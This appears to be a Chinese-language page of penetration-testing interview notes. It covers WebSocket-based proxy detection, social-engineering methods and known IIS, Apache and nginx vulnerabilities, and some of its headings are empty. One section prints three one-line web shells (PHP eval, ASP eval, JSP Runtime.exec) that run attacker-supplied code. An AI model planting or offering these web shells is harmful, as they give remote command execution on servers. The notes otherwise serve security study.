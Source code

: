 

### 怎么判断socket代理

> 通过 Websocket 的 bufferedAmount 来探测用户是否采用来代理
>
> 1. Client 通过 Websocket 与 Server 建立连接
> 2. Server 监听到 connect 事件后，将本次 TCP 的 window size 设置为 0，这也就意味着 Client 无法继续将数据包传给 server
> 3. Client 使用 websocket.send()持续发送几个包
> 4. 在 Client 上观察 websocket.bufferedAmount 值，如果过了一会，这个值一直在增大，说明无代理，否则存在代理
>    为啥可以通过这个值来判断呢？这是因为代理工具一般不会转发 TCP 的设置，也就是说，开启了代理的 Client 发出的包会被代理给吃掉



### 一句话木马

```
<?php @eval($_POST[1]);?>    php
<%eval request("chopper")%>   asp
 <%Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));%>  jsp

```



### 社工手段有哪些

- 邮件钓鱼 
- 伪装成熟人



### fastjson



### 客服有映射到外网的服务器被打进来了，如何溯源



### 常见的中间件漏洞

IIS

- 解析漏洞
- put任意文件写入
- 段文件漏洞

apache

- 未知扩展名解析漏洞
- addhandler导致的解析漏洞
- 换行解析漏洞

nginx

- 解析漏洞
- 空字节任意代码执行
- 文件名逻辑漏洞‘
- 配置错误导致的安全问题
